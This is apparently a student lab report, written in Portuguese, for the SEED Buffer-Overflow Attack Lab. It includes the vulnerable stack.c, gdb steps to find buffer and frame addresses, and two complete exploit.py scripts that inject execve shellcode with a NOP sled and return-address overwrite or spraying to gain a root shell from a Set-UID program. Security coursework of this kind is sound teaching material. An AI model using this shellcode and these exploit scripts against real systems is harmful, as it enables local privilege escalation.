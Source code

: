 # Semana #5 - Buffer-Overflow Attack Lab - Set-UID Version

## Task 1 - Getting familiar with shellcode
![Alt text](image.png)
Esta task familiariza-nos com shellcode. Aprendemos que a melhor maneira para correr shellcode é através de código assembly. Aprendemos, também, um pouco sobre o código assembly utilizado para chamar a função **execve()** e executar `/bin//sh`.
Depois de compilar o ficheiro `call_shellcode.c`, são criados 2 ficheiros:

- `a32.out`, que contém o código em 32 bits
- `a64.out`, que contém o código em 64 bits

Embora o código assembly seja diferente dependendo se é 32 bits ou 64 bits, quando corremos notamos que ambos, de facto, abrem a shell bash e, depois de escrever `whoami`, ambas as bashes respondem com **seed**.


## Task 2 - Understanding the Vulnerable Program

Primeiramente, começamos por compilar o ficheiro `stack.c` e torná-lo num Set-UID program através dos seguintes comandos:

```
sudo chown root stack
```


```
sudo chmod 4755 stack
```

O conteúdo do `stack.c` é o seguinte:

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
/* Changing this size will change the layout of the stack.
* Instructors can change this value each year, so students
* won’t be able to use the solutions from the past. */
#ifndef BUF_SIZE
#define BUF_SIZE 100
#endif

int bof(char *str){
    char buffer[BUF_SIZE];
    /* The following statement has a buffer overflow problem */
    strcpy(buffer, str);
    return 1;
}

int main(int argc, char **argv){
    char str[517];
    FILE *badfile;
    badfile = fopen("badfile", "r");
    fread(str, sizeof(char), 517, badfile);
    bof(str);
    printf("Returned Properly\n");
    return 1;
}
```


Alternadamente, podemos simplesmente fazer **make**, pois o `Makefile` já tem as instruções para fazer isto.

Depois de fazer **make**, são criados 4 pares de ficheiros executáveis:

- `stack-L1` e `stack-L1.dbg`
- `stack-L2` e `stack-L2.dbg`
- `stack-L3` e `stack-L3.dbg`
- `stack-L4` e `stack-L4.dbg`

Agora, falta mudar o conteúdo do `badfile` para conseguirmos dar exploit à vulnerabilidade existente.

## Task 3 - Launching Attack on 32-bit Program (Level 1)

Primeiro, temos que criar o ficheiro `badfile`:

```
touch badfile
```

Agora, vamos correr o código em modo debug para conseguirmos descobrir a distância entre a posição inicial do **buffer** e o sítio onde o **return address** está armazenado. Para isso, vamos escrever a seguinte instrução: 

```
gdb stack-L1-dbg
```

Depois de meter um breakpoint na função **bof()**, executar o programa e dar alguns passos para a frente, podemos saber o endereço do **$ebp** da seguinte forma:

```
p $ebp
```

Que retornou `(void *) 0xffffcb18`.<br>
Podemos fazer o mesmo para descobrir o endereço do buffer:

```
p &buffer
```

Que retornou `0xffffcaac`.<br>

Por fim, alteramos o ficheiro `exploit.py` para ter os valores dos endereços obtidos. O ficheiro final ficou assim:

```py
#!/usr/bin/python3
import sys

# Replace the content with the actual shellcode
shellcode= (
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"
).encode('latin-1')

# Fill the content with NOP's (do nothing operation)
content = bytearray(0x90 for i in range(517)) 

##################################################################
# Put the shellcode somewhere in the payload
start = 517 - len(shellcode)
content[start:start + len(shellcode)] = shellcode

# Decide the return address value 
# and put it somewhere in the payload
ret    = 0xffffcb18 + 190
offset = 0xffffcb18 - 0xffffcaac + 4

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder='little') 
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
```

Foram necessárias fazer mudanças ao ficheiro original.<br>
Primeiro, mudamos o shellcode para código de 32 bits, que tinha sido dado no ficheiro `call_shellcode.c`.
Depois mudamos o start, que representa o início do shellcode na stack e calculamo-lo subtraindo o tamanho da shellcode ao tamanho lido do badfile, ou seja:

```py
start = 517 - len(shellcode)
```

Finalmente, falta calcular o novo return address, que nos vai levar ao shellcode, e o offset, que representa a distância entre o return address e o início do buffer. Isto é para escrevermos no `badfile`, onde anteriormente estava o return address, um return address novo, que nos levará ao shellcode.
Para calcular o return address basta pegar no valor do **$ebp** e somar um número para que, depois de sair da função, o endereço esteja num local preenchido só por NOP's, que faz com que prossiga até, finalmente, chegar ao shellcode.<br>
Para calcular o offset, temos que subtrair ao **$ebp** o valor do endereço do **buffer** e somar 4, para incluir o antigo return address:

```py
ret    = 0xffffcb18 + 190
offset = 0xffffcb18 - 0xffffcaac + 4
```

Finalmente, corremos o `exploit.py`, que vai criar o `badfile`, seguido do `stack-L1` e obtemos a seguinte mensagem:

```
# <---- Bingo! You’ve got a root shell!
```

## Task 4 - Launching Attack without Knowing Buffer Size (Level 2)


Embora este exercício seja semelhante ao anterior, o facto de não sabermos o tamanho do buffer leva-nos a ter de ter uma approach diferente em relação, especialmente, ao return address. Como não é suposto sabermos o **$ebp**, não conseguimos calcular o offset e, portanto, não conseguimos dar pinpoint à localização do return address que queremos dar override.<br>
Vamos, portanto, ter de recorrer a **spraying**.

**Spraying** consiste em encher o buffer com o novo return address que queremos, pois, assim, mesmo não sabendo o tamanho do `buffer` e, por sua vez, o endereço do return address, como sabemos o tamanho máximo do `buffer` sabemos o endereço máximo que o antigo return address pode ocupar.

O `exploit.py` ficou da seguinte forma:

```py
#!/usr/bin/python3
import sys

# Replace the content with the actual shellcode
shellcode= (
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"
).encode('latin-1')

# Fill the content with NOP's (do nothing operation)
content = bytearray(0x90 for i in range(517)) 

##################################################################
# Put the shellcode somewhere in the payload
start = 517 - len(shellcode)
content[start:start + len(shellcode)] = shellcode

# Decide the return address value 
# and put it somewhere in the payload
ret    = 0xffffcaac + 420
#offset = 0xffffcb18 - 0xffffcaac + 4  # Não é necessário para este caso

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address

for offset in range(50):
  content[offset*L:offset*L + L] = (ret).to_bytes(L,byteorder='little') 
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
```

Desta vez, como não temos o **$ebp** para calcular o **ret**, usamos o endereço do início do `buffer`, devido a isto o número adicionado tem de ser maior do que o tamanho máximo do `buffer`, que é **200 bytes** e ser alto o suficiente para atingir a zona preenchida por NOP's <br>
Portanto, o novo return address ficou com o valor:

```py
ret = 0xffffcaac + 420
```

Por fim, não podemos calcular onde colocar o novo return address como no exercício anterior, portanto recorremos a **spraying**:

```py
for offset in range(50):
  content[offset*L:offset*L + L] = (ret).to_bytes(L,byteorder='little') 
```

Este **ciclo for** vai colocar em todos os endereços do `buffer` o novo return address, calculado anteriormente.

Desta forma, após correr:

```
./exploit.py
./stack-LX
```

Onde **X** é um número de 1 a 2, conseguimos ter acesso à shell.

**P.S** : É preciso notar que os endereços variam de stack para stack, portanto não serão os mesmos para a stack-L1 e para a stack-L2.
Além disso, as stacks L3 e L4 são de 64 bits, portanto não são relevantes a esta task.
